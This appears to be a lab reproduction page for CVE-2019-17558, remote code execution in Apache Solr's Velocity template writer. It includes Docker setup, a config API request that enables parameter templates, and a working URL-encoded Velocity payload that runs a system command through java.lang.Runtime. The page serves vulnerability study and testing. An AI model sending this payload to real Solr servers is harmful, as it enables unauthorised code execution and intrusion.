


Apache Solr Remote Code Execution Via Velocity Template (CVE-2019-17558)¶
Solr is the popular, blazing-fast, open source enterprise search platform built on Apache Lucene(TM).
Apache Solr 5.0.0 to Apache Solr 8.3.1 are vulnerable to a Remote Code Execution through the VelocityResponseWriter. A Velocity template can be provided through Velocity templates in a configset velocity/ directory or as a parameter. A user defined configset could contain renderable, potentially malicious, templates. Parameter provided templates are disabled by default, but can be enabled by setting params.resource.loader.enabled by defining a response writer with that setting set to true. Defining a response writer requires configuration API access. Solr 8.4 removed the params resource loader entirely, and only enables the configset-provided template rendering when the configset is trusted (has been uploaded by an authenticated user).
References:
- https://nvd.nist.gov/vuln/detail/CVE-2019-17558
- https://issues.apache.org/jira/browse/SOLR-13971
- https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133
- https://github.com/jas502n/solr_rce
Environment Setup¶
Execute the following command to start an Apache Solr 8.2.0 server:
docker compose up -d
After the server starts, you can access the Apache Solr management interface at http://your-ip:8983/. No authentication is required.
Vulnerability Reproduction¶
First, get all core names through the following API:
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
The demo is the only core in this environment:

Enable the params.resource.loader.enabled configuration through the following API (the endpoint is /solr/[core name]/config):
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259
{
"update-queryresponsewriter": {
"startup": "lazy",
"name": "velocity",
"class": "solr.VelocityResponseWriter",
"template.base.dir": "",
"solr.resource.loader.enabled": "true",
"params.resource.loader.enabled": "true"
}
}
Then, trigger the vulnerability by sending a malicious Velocity template:
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
